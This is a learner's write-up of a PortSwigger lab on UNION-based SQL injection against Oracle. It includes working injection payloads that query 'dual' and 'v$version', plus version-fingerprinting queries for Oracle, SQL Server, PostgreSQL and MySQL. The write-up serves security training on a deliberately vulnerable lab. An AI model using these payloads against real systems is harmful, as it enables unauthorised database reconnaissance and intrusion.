

# SQL injection attack, querying the database type and version on Oracle

**Category:** Web Exploitation — SQL Injection  
**Difficulty:** Practitioner
**Progress:** Solved

---

## Description

**Lab URL:** `https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle`

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. 

Hint:
On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual 

---

## Reconnaissance

- What does the application do? 
    - Still the same basic shop website
- Where is user input accepted? (forms, URL parameters, headers, cookies)
    - there is no input field (account login vanished) but the user can input text into the url
- What happens with normal input?
    - inputting a normal word instead of the given categories prints the word on the page and shows no results, inputting the given categories works like it should

---

## Analysis

#### Technology Stack
```
Database:   oracle (from dual)
Input:      URL
Behavior:   union based sql injection
```

#### Vulnerability

- What exactly is vulnerable and why?
    
As per the lab instructions the category filter is vulnerable. 
It probably looks like this:
```sql
SELECT * FROM products WHERE category = '[input]'
```

---

## Solution

### Step 1 - Craft payload

Doing the `ORDER BY` check shows the database has two columns.
The `UNION SELECT NULL` fails, probably cause the database does not accept selects like this.

The lab is about oracle databases so smth like:
```sql
category=' UNION SELECT null, null FROM dual--
```
should work. And it does. Replacing the nulls with 'a' shows that both columns are string columns.

---

### Step 2 - Extract / Exploit

Final step to get the version:

```sql
category=' UNION SELECT banner,null FROM v$version--
```
this returns the database version:


---

## Real World Impact

Textbook database fingerprinting. This is the very first step an attacker takes and of course no business would want an attacker to get this basic info so easily. Especially since it lays the groundwork for anything following.

---

## Learnings

- For oracle databases it is not needed to use anything related to version for the first fingerprint. The actual `FROM DUAL` is already evidence for the database to be oracle.
- otherwise: `select banner FROM v$version` for oracle, `select @@version` for microsoft, `select version()` for postgreSQL and `@@version` for MySQL.